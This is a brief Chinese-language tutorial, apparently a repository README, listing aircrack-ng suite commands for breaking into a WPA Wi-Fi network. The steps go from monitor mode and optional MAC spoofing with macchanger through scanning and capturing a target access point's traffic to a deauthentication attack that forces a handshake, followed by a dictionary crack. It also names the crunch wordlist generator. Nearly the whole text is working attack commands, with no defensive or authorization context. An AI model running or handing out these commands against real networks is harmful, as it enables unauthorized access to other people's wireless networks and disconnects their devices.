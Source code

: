 使用apt-get 安装即可
具体使用步骤：
1.启动airmon-ng查看网络接口
-- sudo airmon-ng
2.修改接口的mac地址（借助macchanger，此步骤可选）
-- sudo airmon-ng stop 接口名
-- sudo macchanger --mac 随机列举的mac号码
-- sudo airmon-ng start 接口号
3.扫描wlan
-- sudo airodump-ng 接口名
4.接收指定BSSID的文件
-- sudo airodump-ng -c 目标频道 -w 数据保存的名字 --bssid 目标AP的bssid 接口号的映射端口
5.进行deauth攻击以便捕获握手包
-- sudo aireplay-ng --deauth 10 -a 目标AP的bssid 	-c 单个连接目标的mac号码 接口号的映射端口
6.字典攻击
-- sudo aircrack-ng -w 字典路径 截获的数据文件名-01.cap


crunch字典生成工具
